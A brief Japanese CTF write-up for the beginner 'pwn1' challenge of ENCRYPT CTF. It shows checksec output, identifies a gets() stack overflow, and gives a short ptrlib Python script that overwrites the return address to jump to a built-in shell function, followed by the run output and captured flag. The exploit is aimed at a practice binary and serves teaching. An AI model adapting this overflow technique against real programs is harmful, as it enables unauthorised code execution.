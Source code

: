 # [pwn 50pts] pwn1 - ENCRYPT CTF
32bitバイナリでセキュリティ機構は基本的に無効のようです。
```
$ checksec pwn1
[*] 'pwn1'
    Arch:	32 bits (little endian)
    NX:		NX enabled
    SSP:	SSP disabled (No canary found)
    RELRO:	No RELRO
    PIE:	PIE disabled
```
IDAで解析しましょう。
getsによるスタックオーバーフローがあります。
また、`/bin/sh`を呼んでくれるshell関数があるので、これを呼び出せば良さそうです。

```python
from ptrlib import *

elf = ELF("./pwn1")
sock = Process("./pwn1")
sock.sendline(b"A" * 140 + p32(elf.symbol("shell")))
sock.interactive()
```

```
$ python solve.py 
[+] Process: Successfully created new process (PID=7284)
Tell me your name: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA­
                                                                   
[ptrlib]$ cat flag.txt
encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}
[ptrlib]$
```

# 感想
pwn初心者向け問題ですね。